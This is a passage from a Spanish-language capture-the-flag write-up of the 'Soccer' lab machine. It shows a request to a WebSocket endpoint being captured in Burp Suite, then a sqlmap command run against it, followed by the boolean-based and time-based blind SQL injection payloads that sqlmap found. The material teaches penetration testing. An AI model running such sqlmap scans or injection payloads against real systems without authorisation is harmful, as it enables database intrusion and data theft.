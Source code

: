 Estamos ante una `SQLI` (SQL Injection)

![](/assets/img/Soccer/image_14.png)

`Capturamos` la `petición` con `Burpsuite` y observamos que es un `WebSocket` el cual se tramita por `JSON`. Un `WebSocket` es un `protocolo` que permite `comunicación en tiempo real` entre un `navegador` y un `servidor`. Mantiene una `conexión abierta` para que ambos puedan enviarse mensajes cuando quieran, ideal para aplicaciones como `chats` o `juegos`

![](/assets/img/Soccer/image_15.png)

Explotamos la vulnerabilidad con `SqlMap`

```
# sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3
```

`SqlMap` nos ha identificado `dos tipos de inyecciones SQL`

```
Parameter: JSON id ((custom) POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: {"id": "-9175 OR 8186=8186"}

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"id": "1234 AND (SELECT 8871 FROM (SELECT(SLEEP(5)))yvKW)"}
```
